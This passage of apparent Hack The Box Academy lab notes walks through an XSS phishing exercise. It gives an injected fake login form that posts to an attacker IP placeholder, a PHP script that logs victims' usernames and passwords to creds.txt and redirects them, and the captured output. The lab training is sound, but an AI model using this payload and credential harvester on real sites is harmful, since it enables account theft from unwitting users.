Let's try logging into the injected login form and see what we get. We see that we get redirected to the original Image Viewer page:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/103/xss_image_viewer.jpg)

If we check the `creds.txt` file in our Pwnbox, we see that we did get the login credentials:

```shell-session
smoothment@htb[/htb]$ cat creds.txt
Username: test | Password: test
```

With everything ready, we can start our PHP server and send the URL that includes our XSS payload to our victim, and once they log into the form, we will get their credentials and use them to access their accounts.

## Question

***

!\[]\(Pasted image 20250130172026.png)

Nice, let's breakdown this question:

### Creating the malicious URL

***

We need to see our `tun0` Ip, we can achieve this by doing `ip a | grep tun0`, once we have our IP, we can submit the following payload into the `/phishing` site:

```js
document.write('<h3>Please login to continue</h3><form action=http://OUR_TUN0_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

We can see the following:

!\[]\(Pasted image 20250130172409.png)

We could erase the `Image URL` section from above but since this is just a challenge, let's keep it like that.

Let's go into next step

### Setting our php server

***

Next step would be setting our php server to trick the user into thinking they did a legitimate action, let's save the following code in a file:

```php
<?php  
if (isset($_GET['username']) && isset($_GET['password'])) {  
$file = fopen("creds.txt", "a+");  
fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");  
header("Location: http://SERVER_IP/phishing/login.php");  
fclose($file);  
exit();  
}  
?>
```
